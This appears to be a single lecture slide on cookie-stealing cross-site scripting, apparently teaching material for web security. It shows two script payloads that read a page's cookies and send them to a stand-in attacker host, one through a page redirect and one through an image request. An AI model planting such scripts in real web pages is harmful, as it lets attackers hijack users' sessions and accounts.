

# Cookie Stealing XSS Attacks
Attack 1
<script>
document.location = "http://www.evilsite.com/steal.php?cookie="+document.cookie;
</script>

Attack 2
<script>
img = new Image();
img.src = "http://www.evilsite.com/steal.php?cookie=" + document.cookie;
</script>